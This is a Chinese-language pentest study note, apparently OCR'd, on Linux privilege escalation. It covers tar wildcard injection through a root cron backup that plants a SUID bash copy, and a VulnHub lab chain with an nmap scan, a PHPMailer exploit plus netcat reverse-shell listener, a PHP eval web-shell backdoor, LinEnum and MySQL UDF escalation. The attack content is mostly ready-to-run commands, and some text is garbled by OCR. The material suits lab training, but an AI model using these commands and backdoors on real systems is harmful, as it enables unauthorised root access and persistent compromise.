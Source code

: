 ##### #第二种:命令问题

利用通配符配合命令参数自定义命令实现提权
不安全定时任务备份命令:

```
cd /home/undead/script;tar czf /tmp/backup.tar.gz *
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/undead/script/test.sh
echo””> "--checkpoint-action=exec=sh test.sh"
echo“”> "--cheokpoint=1"

参考命令: https://www.cnblogs.com/manong--/p/8012324.html

 test.sh
 cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```



##### #第三种:权限问题

利用不安全的权限分配操作导致的定时文件覆盖
chmod 777 775等所有者组其他成员说明

#### Linux提权数据库MYSQL_UDF-VuInhub

Vulnhub某靶机-探针及端口-利用漏洞获取web权限-信息收集-查看数据库配置文
件-利用mysql提权Linux (Mysql 版本区别同windows)
#探针ip及端口

```
nmap 192.168.76.0/24
```

#利用phpmailex漏洞进行修改并反弹

```
python D:/Myproject/40974.py
nc -lvvp 4444
```

#写入后门利用菜刀连接方便操作

```
echo '<?php eval($_POST[x]) ;?>' >1.php
```

上传信息收集脚本进行提权信息收集

```
./LinEnum.sh
```

翻阅数据库配置文件获取root密码
#利用Mysql提权

```
search sploit
```

下载mysql udf poc进行编译
